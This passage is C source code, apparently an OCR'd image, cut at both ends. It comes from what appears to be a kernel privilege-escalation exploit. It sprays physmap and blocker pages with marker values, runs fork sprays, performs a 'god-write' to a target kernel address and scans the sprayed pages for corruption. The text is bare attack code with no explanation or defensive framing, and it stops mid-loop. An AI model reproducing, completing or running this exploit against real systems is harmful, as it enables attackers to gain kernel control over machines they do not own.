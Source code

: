 ```c
{
  printf("[+] Allocating BLOCKERS...\n");
  for(int i = 0; i < num; i++)
  {
    void * target = mmap(0, BLOCKER_SIZE, PROT_READ|PROT_WRITE, MAP_PREFAULT_READ|MAP_ANON|MAP_PRIVATE, -1, 0);
    if (target == (void*)-1){
      perror("[-] Allocation FAILED: ");
      cleanup();
    }
    mlock(target, BLOCKER_SIZE);
    blockers[i] = target;
  }

  for(int i = 0; i < num; i++)
  {
    for(int j = 0; j < BLOCKER_SIZE; j+=4) {
      *(int*)((char*)blockers[i]+j) = 0xde4db33f;
    }
  }
}

void physmap_spray(int num)
{
  printf("[+] PHYSMAP Spraying ...\n");
  for(int i = 0; i < num; i++)
  {
    void * target = mmap(0, FREE_PAGE_SIZE, PROT_READ|PROT_WRITE, MAP_PREFAULT_READ|MAP_ANON|MAP_PRIVATE, -1, 0);
    if(target == (void*)-1) {
      perror("[-] Allocation FAILED: ");
      cleanup();
    }
    mlock(target, FREE_PAGE_SIZE);
    phys_big[i] = target;
  }

  for(int i = 0; i < num; i++)
  {
    for(int j = 0; j < FREE_PAGE_SIZE; j+=4) {
      *(int*)((char*)phys_big[i]+j) = 0xac1dc0d3;
    }
  }

  spray_blockers(BLOCKER_ROUNDS);
  sleep(2);

  forkslay(FORK_SPRAYS);
  while(pwn_ctx->init != FORK_SPRAYS)
    sleep(1);
  printf("[+] Forks completed ...\n");

  printf("[*] Attempting god-write at %lx \n", free_target);
  god_write(free_target);
  sleep(2);

  printf("[*] Looking for magic in allocations ...\n");
  void * ex = 0;
  for(int i = 0; i < num; i++) {
    ex = memmem(phys_big[i], FREE_PAGE_SIZE, "\x00", 1);
    if(ex){
      printf("[+] Found in allocation: %p, freeing it!\n", phys_big[i]);
      munlock(phys_big[i], FREE_PAGE_SIZE);
```